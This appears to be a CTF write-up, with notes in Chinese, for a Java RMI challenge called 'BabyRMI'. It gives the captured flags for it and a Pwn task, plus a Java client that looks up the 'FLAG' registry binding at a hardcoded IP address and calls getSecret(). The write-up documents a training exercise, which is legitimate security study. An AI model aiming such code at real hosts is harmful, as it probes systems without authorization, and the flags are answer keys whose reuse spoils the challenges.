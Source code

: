 
## BabyRMI (solved)
:::success
FLAG{java_registry_is_important_to_rmi_deserialization_vulnerability!}
:::
- Java RMI
    - 用 LocateRegistry.getRegistry 連上 remote
    - 用 registry.list() 察看有那些 registry
        - 有 Hello 和 FLAG
    - 看 interface 檔裡有 getSecret() 這個 method，執行就有 flag 了
- 參考：https://github.com/PoliCTF/sources2017/blob/master/pwn-lamermi/writeup.md
- exploit code: https://github.com/soyccan/hacknote/blob/master/ais3eof2020/web/babyrmi/src-public/com/kaibro/rmi/Exploit.java
```java
// Exploit.java
package com.kaibro.rmi;

import java.rmi.Remote;
import java.rmi.RemoteException;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Exploit {
    public static void main(String[] args) {//throws RemoteException, NotBoundException {
        String host = "140.113.203.209";
        int port = 11099;
        try {
            Registry registry = LocateRegistry.getRegistry(host, port);
            RMIInterface stub = (RMIInterface) registry.lookup("FLAG");
            String response = stub.getSecret();
            System.out.println("response: " + response);

            String[] ports = registry.list();
            for (String por: ports) {
                System.out.println(por);
            }
        } catch (Exception e) {
            System.err.println("Client exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```
執行：
```sh
javac com/kaibro/rmi/Exploit.java com/kaibro/rmi/RMIInterface.java
java com.kaibro.rmi.Exploit
```

---
# Pwn
## impossible (solved)
:::success
FLAG{H0w_did_y0u_byp4ss_my_ch3cking?_I7s_imp0ss1b1e!}
:::
